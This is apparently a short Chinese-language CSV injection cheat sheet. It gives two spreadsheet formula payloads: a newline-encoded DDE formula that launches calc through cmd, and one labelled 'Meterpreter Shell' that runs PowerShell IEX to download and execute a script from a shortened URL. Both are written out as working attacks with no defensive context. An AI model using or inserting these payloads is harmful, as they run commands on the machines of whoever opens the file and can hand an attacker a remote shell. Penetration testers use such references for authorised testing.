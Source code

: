 ## CSV 注入

**新的一行编码如下**

```
%0A-3+3+cmd|' /C calc'!D2
```

**Meterpreter Shell**

```
=cmd|'/C powershell IEX(wget bit.ly/1X146m3)'!A0
```


